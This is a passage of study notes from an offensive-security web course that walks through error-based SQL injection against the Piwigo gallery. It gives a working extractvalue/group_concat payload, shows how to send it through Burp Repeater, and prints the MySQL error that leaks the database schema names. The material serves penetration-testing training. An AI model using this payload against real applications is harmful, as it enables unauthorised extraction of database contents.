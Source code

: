 
**The _group_concat()_ function is unique to MySQL. Current versions of Microsoft SQL Server[3](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/case-study-error-based-sqli-in-piwigo-31287/discovering-the-vulnerable-parameter-31054#fn-local_id_73-3) and PostgreSQL[4](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/case-study-error-based-sqli-in-piwigo-31287/discovering-the-vulnerable-parameter-31054#fn-local_id_73-4) have a very similar _STRING_AGG()_ function. Additionally, current versions of Oracle DB have a _LISTAGG()_[5](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/case-study-error-based-sqli-in-piwigo-31287/discovering-the-vulnerable-parameter-31054#fn-local_id_73-5) function that is similar to the _STRING_AGG()_ functions.**

Let's use the _group_concat()_ function to extract the schema names from _information_schema.tables_ using the payload below, which includes line numbers and formatting for readability.
Using ExtractValue() with group_concat()
```sql
01  asc, extractvalue('',concat('>',(
02    select group_concat(table_schema) 
03    from (
04      select table_schema 
05      from information_schema.tables 
06      group by table_schema) 
07    as foo)
08    )
09  )
```
Let's start with the inner-most sub-query on lines 4 through 6. This sub-query selects the _table_schema_ column from _information_schema.tables_ and groups the results, returning each unique value only once. Lines 2 through 7 use the inner-most query as a table, using the _group_concat()_ function to aggregate the results into a single record. When we use a subquery in place of a table, MySQL requires an alias to use as a table name (line 7). Lines 1 and 9 take the result from the _group_concat()_ subquery, concatenate it with a greater-than symbol (>), and pass the resulting value to the _extractvalue()_ function.

Let's add our payload in Repeater. We'll need to URL-encode the spaces.

Without Lines
```sql
asc, extractvalue('',concat('>',(select group_concat(table_schema) from (select table_schema from information_schema.tables group by table_schema) as foo)))
```
Updating our payload in Repeater
- highlighted payload and clicked `CTRL+U` to change to url encoding
![[Pasted image 20240905205907.png]]
Next, we'll click _Send_. As expected, the server responds with an error.

```sql
:  [mysql error 1105] XPATH syntax error: '>information_schema,piwigo'

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc, extractvalue('',concat('>',(select group_concat(table_schema) from (select table_schema from information_schema.tables group by table_schema) as foo)))
		LIMIT 0, 10
   in <b>/piwigo/piwigo/include/dblayer/functions_mysqli.inc.php</b>
```
The error message includes the list of database schemas. The value "piwigo" matches the name of the application and likely contains the application-specific tables.

